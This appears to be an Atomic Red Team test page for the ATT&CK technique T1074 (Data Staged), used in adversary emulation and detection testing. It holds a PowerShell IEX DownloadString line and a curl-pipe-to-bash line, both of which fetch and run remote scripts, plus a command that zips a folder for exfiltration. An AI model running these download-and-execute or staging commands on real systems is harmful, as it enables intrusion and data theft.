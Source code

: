 # T1074 - Data Staged
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1074)
<blockquote>Collected data is staged in a central location or directory prior to Exfiltration. Data may be kept in separate files or combined into one file through techniques such as [Data Compressed](https://attack.mitre.org/techniques/T1002) or [Data Encrypted](https://attack.mitre.org/techniques/T1022).

Interactive command shells may be used, and common functionality within [cmd](https://attack.mitre.org/software/S0106) and bash may be used to copy data into a staging location.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Stage data from Discovery.bat](#atomic-test-1---stage-data-from-discoverybat)

- [Atomic Test #2 - Stage data from Discovery.sh](#atomic-test-2---stage-data-from-discoverysh)

- [Atomic Test #3 - Zip a Folder with PowerShell](#atomic-test-3---zip-a-folder-with-powershell)


<br/>

## Atomic Test #1 - Stage data from Discovery.bat
Utilize powershell to download discovery.bat and save to a local file

**Supported Platforms:** Windows



#### Run it with `powershell`! 
```
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/ARTifacts/Misc/Discovery.bat') > pi.log
```



<br/>
<br/>

## Atomic Test #2 - Stage data from Discovery.sh
Utilize curl to download discovery.sh and execute a basic information gathering shell script

**Supported Platforms:** Linux, macOS



#### Run it with `bash`! 
```
curl -s https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1074/Discovery.sh | bash -s > /tmp/discovery.log
```



<br/>
<br/>

## Atomic Test #3 - Zip a Folder with PowerShell
use living off the land tools to encrypt and zip a file for exfiltration

**Supported Platforms:** Windows



#### Run it with `powershell`! 
```
Compress-Archive -Path $PathToAtomicsFolder\T1074\bin\Folder_to_encrypt -DestinationPath $env:TEMP\Folder_to_encrypt.zip
```


#### Cleanup Commands:
```
Remove-Item -Path $env:TEMP\Folder_to_encrypt.zip
```

<br/>
